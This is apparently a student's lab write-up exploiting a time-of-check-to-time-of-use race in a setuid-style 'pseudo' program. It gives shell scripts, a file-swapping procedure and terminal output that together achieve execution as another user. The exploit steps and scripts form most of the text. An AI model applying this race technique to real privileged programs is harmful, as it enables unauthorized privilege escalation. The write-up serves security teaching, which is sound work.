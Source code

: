 ### TOCTTOU
`owner_of(argv[2], &tmp)` is called twice, first to confirm if the username exists and to authenticate the password, and then to set `euid` to that user
 - Validate the username as your own user in a fake `/etc/passwd` file (idk if there is a better way to do this)
 - While it is asking for your password, swap out the file you are targeting with `-a` to a file owned by a different user
```
alexander.stevenson@mocha:~/a2$ env -i HOME=. pseudo -a ~/etc/touch/Heega /bin/sh
😸: Found passwd entry for 'alexander.stevenson' (255)
Upon successful authentication, I shall execve into:
/home/alexander.stevenson/etc/touch/Heega /bin/sh
password for -a:
Authenticated as VladimirRootin (uid: 255)
/bin/sh: /home/alexander.stevenson/etc/touch/Heega: Permission denied
```
```
alexander.stevenson@mocha:~/etc/touch$ ll
total 8
drwxr-xr-x 2 alexander.stevenson root                4096 Nov 14 20:08 ./
drwxr-xr-x 3 root                root                4096 Nov 11 14:49 ../
-rw-r--r-- 1 alexander.stevenson alexander.stevenson    0 Nov 14 20:08 Heega
-r--r--r-- 1 VladimirRootin      VladimirRootin         0 Nov 14 20:06 Yeet
alexander.stevenson@mocha:~/etc/touch$ mv Yeet Heega
```
 - This does authenticate as the user we want, however then it gives `Permission denied` as the target file (created with `touch_as`) does not have execute bits or a way to spawn a shell

It is potentially possible that we can expand on tocttou by forcing it to traverse an extremely large symlink, such that
 - User is validated
 - We check `owner_of` the file, this sends the cpu down a huge symlink
 - While this is traversing, we link the file to `/bin/sh`
 - It finishes traversing, sets the euid to the user we want
 - It then executes the symlink which is `/bin/sh`

Turns out `touch_as` doesn't overwrite the file, it just changes ownership. If you first create the file with the name of a user and then call `touch_as`, it will change ownership of the file without changing the contents.
```
alexander.stevenson@mocha:~/etc/touch$ cat TOCTTOU
#!/bin/sh
"/bin/sh"

alexander.stevenson@mocha:~/etc/touch$ cat copy_file
#!/bin/sh
cp TOCTTOU VladimirRootin
touch_as VladimirRootin
mv VladimirRootin ~/a2/Heega

alexander.stevenson@mocha:~/a2$ env -i HOME=. SHELL=/bin/sh pseudo -a ~/a2/Heega
😸: Found passwd entry for 'alexander.stevenson' (255)
Upon successful authentication, I shall execve into:
/home/alexander.stevenson/a2/Heega
password for -a:
// SWAP FILE BEFORE ENTERING PASSWORD
Authenticated as VladimirRootin (uid: 255)
$ whodat
 _________________________
< Dat be 'VladimirRootin' >
 -------------------------
       \
        \  ....
          .    ........
          .            .
          .             .
    .......              .........
    ..............................
Elephant inside ASCII snake
You may my glories and my state dispose,
But not my griefs; still am I king of those.
                -- William Shakespeare, "Richard II"
```